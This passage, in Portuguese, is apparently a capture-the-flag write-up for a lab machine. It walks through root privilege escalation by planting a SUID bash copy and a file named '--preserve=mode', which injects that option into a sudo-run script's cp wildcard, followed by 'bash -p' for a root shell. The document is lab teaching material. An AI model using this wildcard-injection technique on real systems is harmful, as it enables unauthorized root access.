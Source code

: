 ```bash
bindmgr@dynstr:/tmp/tmp.PdP9Qf49qx$ ls -l
total 0
-rw-rw-r-- 1 bindmgr bindmgr 0 Aug 16 19:15 file.sh
-rw-rw-r-- 1 bindmgr bindmgr 0 Aug 16 19:15 test.txt
bindmgr@dynstr:/tmp/tmp.PdP9Qf49qx$ echo *
file.sh test.txt
```

Isso poderia ser explorado de modo a abusar da execução do `cp`, copiando um arquivo previamente configurado com SUID, permitindo a escalação de privilégios na sequência.

Este comportamento foi alcançado a partir da execução dos seguintes passos:

- Copiado o arquivo `/bin/bash` para um diretório temporário e ajustado o SUID bit, assim como criado um arquivo `.version` contendo uma versão inicial.

  ```bash
  bindmgr@dynstr:/tmp$ cd $(mktemp -d)
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ cp /bin/bash .
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ chmod u+s bash
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo 1 > .version
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ ls -la
  total 1168
  drwx------  2 bindmgr bindmgr    4096 Aug 16 19:22 .
  drwxrwxrwt 13 root    root       4096 Aug 16 19:22 ..
  -rwsr-xr-x  1 bindmgr bindmgr 1183448 Aug 16 19:22 bash
  -rw-rw-r--  1 bindmgr bindmgr       2 Aug 16 19:22 .version
  ```

- Criado também um arquivo chamado `--preserve=mode`, de forma que seu nome seja interpretado como um parâmetro para a execução do `cp`, copiando o binário `bash`, porém mantendo o SUID configurado. Podemos confirmar este comportamento a partir do comando `echo`, também abaixo:

  ```bash
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo "" > ./--preserve=mode
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo *
  bash --preserve=mode
  ```

- Executei o script usando o `sudo`

  ```bash
  bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ sudo /usr/local/bin/bindmgr.sh
  sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
  [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.7i6oryDsae.
  [+] Creating /etc/bind/named.conf.bindmgr file.
  [+] Staging files to /etc/bind/named.bindmgr.
  [+] Checking staged configuration.
  [-] ERROR: The generated configuration is not valid. Please fix following errors:
      /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
      /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
      /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
      /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
  ```

- Executei o binário `bash` com o parâmetro `-p`, conforme orientado na página [bash \| GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid), o que me permitiu um shell interativo com a conta `root`, a partir da qual fui capaz de ler o conteúdo do arquivo `/root/root.txt` :smiley:
